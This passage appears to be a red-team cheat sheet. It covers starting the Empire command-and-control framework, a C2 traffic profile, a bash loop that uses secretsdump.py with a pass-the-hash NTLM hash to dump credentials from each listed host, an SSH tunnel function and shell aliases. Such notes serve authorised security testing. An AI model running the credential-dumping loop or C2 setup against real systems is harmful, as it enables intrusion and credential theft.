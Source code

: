 Start Empire

```
    root@workstation:~/empire/setup# cd ..
    root@workstation:~/empire# ./empire
```

Start with REST API for use with Empire Web

```
    ./empire --headless --username admin --password <PASSWORD> --restport 1337

    ./empire --rest --username admin --password <PASSWORD> --restport 1337
```

#### C2 Profiles

Edit default client settings in `/setup/setup_database.py`

Example Default Profile

```
    "/CWoNaJLBo/VTNeWw11212/|Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)|Accept:image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*|Accept-Language:en-en"
```

## Linux

### BASH

BASH loop example

```
    for u in `cat hosts.txt`; do
        echo -n "[*] user: $u" && \
        proxychains python /usr/local/bin/secretsdump.py domain/username@$u -hashes aad3b435b51404eeaad3b435b51404ee:0e493911f561a425e7a905329f4454bf |tee user_brute.log
    done
```

BASH .bashrc Function Example

```
    function start_sshtunnel() {
        ssh -A -t -p22 -L 8800:localhost:8800 james@123.001.123 -t ssh -L 8800:localhost:80 james@124.125.123
    }
```

Quick BASH format .bash_profile (mod ipconfig > ifconfig for Linux)

```
# .bash_profile

PATH=$PATH:/home/james/

export PATH

alias ls='ls -G'
alias grep='grep --color=auto'
alias la='ls -AlahG'
alias el='sudo $(history -p \!\!)'
alias ll='ls -alF'
alias l='ls -CF'
alias lg='ls -AlahG |grep $1'
alias netstati='lsof -P -i -n'

export PS1="\n\n\[\$(if [[ \$? == 0 ]]; then echo \"\[$GREEN\]✓\"; else echo \"\[$RED\]✕\"; fi)[\033[33m\]\D{%Y%m%d_%H%M%S}\[\033[m\] \[\033[36m\]\u@\h__`ipconfig getifaddr en0`__`ipconfig getifaddr en8`\[\033[m\]] \[\033[1;31m\]\n[\w]\[\033[m\] \n \$
```